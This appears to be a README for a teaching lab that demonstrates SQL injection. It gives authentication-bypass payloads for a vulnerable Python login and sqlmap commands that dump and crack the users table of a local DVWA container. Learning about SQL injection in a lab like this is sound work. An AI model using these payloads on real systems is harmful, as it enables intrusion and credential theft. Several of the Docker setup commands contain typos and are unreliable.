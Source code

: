 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything
```
<p style="text-align:center;"><img
 src="./PNGs/6.png" alt="Logo"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password
```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png">
</p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png">
</p>

# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png">
</p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png">
</p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">
<img src="./PNGs/8.png">
</p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;"><img src="./PNGs/7.png"></p>

* Viewing table content and cracking password hashes:

``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>

